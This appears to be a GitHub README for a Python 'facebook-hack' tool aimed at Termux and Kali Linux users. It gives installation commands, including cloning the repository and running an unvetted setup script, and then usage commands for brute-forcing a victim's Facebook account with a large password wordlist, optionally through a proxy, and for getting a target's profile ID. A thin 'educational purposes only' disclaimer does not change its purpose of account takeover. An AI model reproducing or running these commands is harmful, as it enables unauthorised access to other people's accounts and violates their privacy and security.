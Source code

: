 ### **Language is used to Make this tool**

- python
### **The Tool is for .** 
**Commands to run tool in ur terminal Termux && Kali Linux**

_facebook hacking_ 👍🏼

![_5619ffb8-062e-495f-8d5c-6b8e61313e3f](https://github.com/user-attachments/assets/6b60281a-ed9b-4afa-9509-a9b2b6f5c6a1)


> installation
`Note : Tool is Made of Educational Purposes only.
      Please try not to harm anyone device 
      it's For Fun Purpose Not For Revenge
      (Join Us https://asifgk.website3.me)`
```python
apt update && apt upgrade -y
``` 
```python
apt install git -y
``` 
```python
git clone https://github.com/mdaminulislamasif/facebook-hack.git
``` 
```python
cd Facebook_hack
``` 
```python
bash setup
``` 
```python
python facebook_hack.py
``` 
### **usage:)**

- U can Use Victim email Or Facebook Profile Id:
- Brute Force On Facebook Account Without proxy:
- Command: python facebook_hack.py -t [victim@gmail.com](mailto:victim@gmail.com) -w 10MPASS.txt
- Brute Force On Facebook Account With Proxy:

- [ ] Command: python facebook_hack.py -t [victim@gmail.com](mailto:victim@gmail.com) -w 10MPASS.txt -p 144.217.101.245:3129
- [ ] Get Target Facebook Profile ID:
- [ ] Command: python facebook_hack.py -g https://www.facebook.com/zuck
